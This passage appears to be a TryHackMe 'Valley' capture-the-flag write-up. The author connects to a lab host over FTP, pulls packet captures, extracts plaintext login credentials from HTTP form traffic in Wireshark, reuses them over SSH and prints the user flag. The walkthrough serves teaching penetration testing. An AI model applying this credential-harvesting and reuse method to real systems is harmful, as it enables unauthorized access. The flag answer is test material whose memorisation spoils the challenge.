 Let's connect to the target using ftp

```r
Valley ftp 10.10.166.234 37370
Connected to 10.10.166.234.
220 (vsFTPd 3.0.3)
Name (10.10.166.234:dcyberguy): siemDev
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -l
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
```
After listing the directory, I noticed 3 pcapng file. These are network packet captures. We will use Wireshark to read the network logs.

Let go over each pcap file, but the ``"siemHYYP2.pcapng"`` got my attention.
Let us first filter for http and check for "x-www-form-urlencoded" from there we might get something juicy
![[Screenshot 2024-01-21 at 9.23.18 PM.png]]

We obtained a ``username``:valleyDev and ``password``:ph0t0s1234

Let us use the above credentials and log into ssh
```r
ssh valleyDev@10.10.166.234       
The authenticity of host '10.10.166.234 (10.10.166.234)' can't be established.
ECDSA key fingerprint is SHA256:FXFNT9NFnKkrWkvCpeoDAJlr/IEVsKJjboVsCYH3pGE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.166.234' (ECDSA) to the list of known hosts.
valleyDev@10.10.166.234's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro
valleyDev@valley:~$ ls -l
total 4
-rw-rw-rw- 1 root root 24 Mar 13  2023 user.txt
valleyDev@valley:~$ cat user.txt 
THM{k@l1_1n_th3_v@lley}
```
``Found:`` user.txt: ``THM{k@l1_1n_th3_v@lley}``
